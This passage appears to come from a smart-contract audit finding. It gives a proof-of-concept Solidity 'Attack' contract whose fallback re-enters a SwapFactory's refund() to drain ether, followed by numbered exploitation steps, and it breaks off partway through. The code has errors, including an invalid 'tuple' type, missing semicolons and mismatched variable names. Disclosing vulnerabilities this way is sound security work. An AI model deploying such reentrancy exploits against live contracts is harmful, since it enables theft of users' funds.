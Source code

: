      //storing the refund's parameters
     tuple refundsSwap;
     bytes32 refundssecret;

    constructor(
              address _swapFactoryAddress, 
              bytes32 pubKeyRefund_,
              uint256 timeoutDuration_,
              uint256 nonce_
              ) {
        factory = SwapFactory(_swapFactoryAddress);
        pubKeyRefund  = pubKeyRefund_;
        claimer = address(this);
        timeoutDuration = timeoutDuration_;
        nonce = nonce_;
    }

    //Create a new swap
    function createSwap() public payable {
         factory.new_swap(pubKeyRefund, claimer, timeoutDuration, nonce)
    }

     //Create a new swap
    function initializeReady(tuple _swap) public {
         factory.set_ready(_swap)
    }

    //Initialize the variables that will be used as parameters for the refund
    function initializeRefundsParameters(tuple _refundsSwap, bytes32 _refundsSecret) public {
        refundsSwap = _refundsSwap;
        refundsSecret = _refundsSecret;
    }

    // Fallback is called when SwapFactory sends Ether to this contract.
    fallback() external payable {
       if (address(factory).balance >= 1 ether) {
          factory.refund(refundsSwap, refundsSecret);
       }
    }

    function attack() external payable {
        factory.refund(refundsSwap, refundsSecret);
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

2. Call the createSwap(). This will call  the SwapFactory's new_swap() with the parameters we have initialized when deploying the Attack smart contract
3. Call the initializeReady(). This will call  the SwapFactory's set_ready(). You have to put in correct address.
4. Call initializeRefundsParameters(). This will initialize 2 variables that we are going to use when calling SwapFactory's refund(). Make sure you pass 2 correct parameters. You do this before deploying the Attack smart contract.
5. Call the attack() 
6. This will call the SwapFactory's refund()
7. refund() has 3 requirement statements that we need to pass:
    *  require(swapStage != Stage.COMPLETED && swapStage != Stage.INVALID, "swap is already completed");
     It will pass, because we have called the set_ready(), which will set the swap to READY
    *require(msg.sender == _swap.owner, "refund must be called by the swap owner");
    It will pass, because we have iitialized the smart contract as the swap's owner
    *require(
            block.timestamp >= _swap.timeout_1 ||